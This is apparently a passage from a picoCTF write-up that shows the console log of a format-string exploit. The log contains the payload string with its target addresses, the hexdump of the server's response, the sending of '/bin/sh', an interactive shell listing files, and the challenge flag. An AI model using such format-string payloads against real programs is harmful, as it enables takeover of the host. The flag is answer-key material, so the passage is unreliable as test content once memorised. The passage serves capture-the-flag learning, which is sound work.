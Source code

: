 ```console
[*] Sending:
    A:
    b'111_%249c%43$lln%26c%44$hhn%10c%45$hhn%75c%46$hhn%42c%47$hhn%27c%48$hhn'
    B:
    00000000  31 31 31 31  31 31 31 5f  58 10 60 00  00 00 00 00  │1111│111_│X·`·│····│
    00000010  5a 10 60 00  00 00 00 00  59 10 60 00  00 00 00 00  │Z·`·│····│Y·`·│····│
    00000020  5d 10 60 00  00 00 00 00  5b 10 60 00  00 00 00 00  │]·`·│····│[·`·│····│
    00000030  5c 10 60 00  00 00 00 00                            │\·`·│····│
    00000038
[*] Received:
    00000000  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 20  │    │    │    │    │
    *
    000000f0  20 20 20 20  20 20 20 20  d8 20 20 20  20 20 20 20  │    │    │·   │    │
    00000100  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 20  │    │    │    │    │
    00000110  20 20 8e 20  20 20 20 20  20 20 20 20  00 20 20 20  │  · │    │    │·   │
    00000120  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 20  │    │    │    │    │
    *
    00000160  20 20 20 20  20 20 20 ff  20 20 20 20  20 20 20 20  │    │   ·│    │    │
    00000170  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 20  │    │    │    │    │
    *
    00000190  20 90 20 20  20 20 20 20  20 20 20 20  20 20 20 20  │ ·  │    │    │    │
    000001a0  20 20 20 20  20 20 20 20  20 20 20 20  e8           │    │    │    │·│
    000001ad
[*] Sending:
    A:
    /bin/sh
    B:
    00000000  64 75 6d 6d  79                                     │dumm│y│
    00000005
[*] Switching to interactive mode
$ ls
flag.txt
run
$ cat flag.txt
picoCTF{f3rm4t_pwn1ng_s1nc3_th3_17th_c3ntury}
```

The flag: `picoCTF{f3rm4t_pwn1ng_s1nc3_th3_17th_c3ntury}`